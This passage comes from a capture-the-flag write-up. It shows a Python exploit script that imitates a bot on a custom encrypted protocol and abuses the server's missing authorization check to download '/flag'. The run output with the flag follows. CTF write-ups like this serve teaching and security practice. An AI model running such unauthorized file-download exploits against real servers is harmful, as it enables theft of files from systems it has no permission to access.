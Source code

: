 ```py

    p.send(payload)

    p.recv(37)
    l = u16(p.recv(2))

    key = p.recv(l)

    return key

def download(key, path):
    enc_data = b""
    for i in range(len(path)):
        enc_data += bytes([path.encode()[i] ^ key[i % len(key)]])
    
    msg = b"\x06"
    msg += id.encode()
    msg += p16(len(enc_data))
    msg += enc_data 

    p = remote(host, port)
    p.send(msg)

    p.recv(37)
    l = u16(p.recv(2))
    enc = p.recv(l)

    flag = b""
    for i in range(len(enc)):
        flag += bytes([enc[i] ^ key[i % len(key)]])

    log.info(f"flag: {flag.decode()}")

key = register()
download(key, "/flag")
```

The `register()` function builds the proper payload with our UUID for the server to register our bot, allowing us to make further requests to the server. It returns the encryption key that we need to use to encrypt our future payloads. Then, we use that key to make a download request for `/flag`. Since the server doesn't validate that a file download requests comes from a bot who was commanded to download that specific file, the server will fulfill our request for any file on the server. It builds the message, applies the proper encryption, and then decrypts the flag:

```
$ python3 emu.py
[*] id: 0f081b3a-73ea-42bd-84f2-e1ef72439a14
[+] Opening connection to gardenpartydelite.be on port 31996: Done
[+] Opening connection to gardenpartydelite.be on port 31996: Done
[*] flag: dam{cust0m_pr0t0col5_4r3_l4m3_just_us3_http}
```
